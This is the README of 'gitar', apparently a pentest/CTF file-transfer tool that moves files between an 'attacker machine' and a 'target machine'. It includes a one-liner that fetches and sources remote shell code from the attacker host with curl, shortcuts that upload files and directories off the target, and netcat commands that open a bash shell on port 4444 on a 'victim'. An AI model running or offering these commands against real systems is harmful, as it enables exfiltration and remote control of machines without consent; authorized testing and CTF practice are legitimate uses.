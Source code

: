 <div align=center>
<h1>gitar</h1>
<img src=https://github.com/ariary/gitar/blob/main/img/gitar-logo.png width=150>
	
<strong>📡 A more sophisticated python HTTP server sibling <br>🎸 with even simpler interactions for file exchange (Pentest/CTF) </strong>
<br>
</div>

|![demo](https://github.com/ariary/gitar/blob/main/img/gitar-screen.png)|
|:---:|
|**~>** Have the  ***simplest possible shortcuts*** to upload/download file to/from the target machine<br>**~>** ***No installation needed*** on target machine<br>**~>** ***Fast and simple*** deployment|



## TL;DR *- and listen music*

On my target machine:
 - **Download a file** from my attacker machine: `pull [file]`
 - **Download a directory** from my attacker machine: `pullr [directory]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a directory** to my attacker machine: `pushr [directory]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up


### 🎸 Launch `gitar` server 
 
On **Attacker machine**: 
```shell
gitar
```

On **Target machine**:

```shell
# Get shortcuts and source them. The one-liner corresponding is by default copy on clipboard. 
# It is also provided by step 1. (in gitar output):
source <(curl -s http://[attacker_ip:port]/alias)
```

**And that's all, you can now `push` or `pull` file [🎶](#tldr---and-listen-music)**

 <sup>[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files)</sup>

### 🐋 Secure launch of `gitar` server

This is basicaly the same as launching `gitar` server. But as we expose our http server we become the prey. Hence we must harden a bit the server. To do this we launch `gitar` inside a container and use HTTPS.

The following steps expose files of current directory. Files uploaded by remote are written inside current directory also.

On **Attacker machine**: 
```shell
docker run -it --rm --cap-drop=all --cap-add=dac_override --user $(id -u):$(id -g)  -v "${PWD}:/gitar/exchange" ariary/gitar
```

**You can now `push`or `pull` file being more safe [🎶](#tldr---and-listen-music)**



<sup>[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files-safely)</sup>

### Pre-requisites

* HTTP Network connectivity between attacker & target machines
* On target machine: `curl` 
	* `tar` for directory upload 
* On attacker machine: 
	* `xclip` to copy command on clipboard (not required)
	* `tree`: to expose it trough server (not required)
	* `dig`: to automatically find extarnal IP (not required)

The aim is to keep "target requirements" as fit as possible. Attacker machine requirements are not a big deal as we have plenty control over it and time to configure it.

## Install

```shell
go install github.com/ariary/gitar@latest
```

## Bonus

### Bidirectional exchange

You can also use `push` and `pull` shortcuts from attacker machine. It does not require addtional requirements on both machines. To do so it is recommended to load `alias` (put them in your `~/[SHELL]rc`) and launch gitar as follow:
```shell
gtrclean
gitar -bidi
```

On another attacker terminal window you can now push file to remote:
```shell
gtrbidi #to load gitar shortcut
push [FILENAME]

#[...] when your exchange is done
gtrclean 
```

***Notes:*** It will push files on remote within the directory where the `source` command occurs

#### 🐋 Container and bidirectional exchange
```shell
BIDIR=$(mktemp -d);docker run -it --rm --cap-drop=all --cap-add=dac_override --net host --user $(id -u):$(id -g)  -v "${PWD}:/gitar/exchange" -v "$BIDIR:$BIDIR" ariary/gitar -bidi -bd $BIDIR
```

Then on attacker machine load shortcut:
```shell
gtrbidi.docker
```

#### Limits
* Only work for file (does not work for `pullr` and `pushr`)
* Increase considerably the number of http requests on target

### Load shortcut directly in your reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*

On **Target machine**:
```shell
# Launch your classic listener
nc -nvlp 4444 -e /bin/bash
```

On **Attacker machine**:

1. Launch `gitar`server : `gitar -e [server_reachable_ip]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
2. Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `[CTRL+V]` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not benefit of bash completion)*

**And enjoy you revshell [🎶](#tldr---and-listen-music)**


	
	
